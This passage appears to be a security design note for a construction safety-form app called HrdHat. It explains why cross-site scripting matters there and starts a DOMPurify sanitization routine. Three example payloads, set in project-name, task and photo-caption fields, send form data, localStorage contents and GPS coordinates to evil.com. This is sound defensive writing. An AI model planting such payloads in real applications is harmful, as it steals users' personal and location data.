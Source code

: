#### **Scenario 1: Malicious Project Name**

```typescript
// Attacker enters this as project name:
projectName: '<script>fetch("/api/forms").then(r=>r.json()).then(data=>fetch("https://evil.com/steal", {method:"POST", body:JSON.stringify(data)}))</script>';

// If not properly handled, this could steal all form data when displayed
```

#### **Scenario 2: Malicious Task Description**

```typescript
// In Task/Hazard/Control module:
task: '<img src="x" onerror="document.location=\'https://evil.com/steal?data=\'+btoa(localStorage.getItem(\'formData\'))">';

// Could steal locally stored form data
```

#### **Scenario 3: Signature/Photo Metadata**

```typescript
// Malicious photo caption:
caption: '<script>navigator.sendBeacon("https://evil.com/location", JSON.stringify({lat: position.coords.latitude, lng: position.coords.longitude}))</script>';

// Could steal GPS coordinates from construction sites
```

### **Why XSS is Critical for HrdHat**

#### **Sensitive Data at Risk**

- **Construction site locations** (GPS coordinates)
- **Worker names and signatures** (personal information)
- **Safety assessment data** (could be used maliciously)
- **Company information** (competitive intelligence)
- **Form templates** (business processes)

#### **Construction Site Context**

- **Shared devices**: Multiple workers use same tablets
- **Offline storage**: Malicious scripts could access localStorage
- **Safety implications**: Corrupted safety data could cause accidents

### **XSS Prevention Implementation**

#### **1. Input Sanitization**

```typescript
import DOMPurify from 'dompurify';

// Sanitize all user input before storing
const sanitizeInput = (input: string): string => {
  return DOMPurify.sanitize(input, {
    ALLOWED_TAGS: [], // No HTML tags allowed
    ALLOWED_ATTR: [], // No attributes allowed
  });
};

// Use in form handlers
const handleProjectNameChange = (value: string) => {
  const sanitized = sanitizeInput(value);
  setFormData(prev => ({
    ...prev,
    generalInfo: { ...prev.generalInfo, projectName: sanitized },
```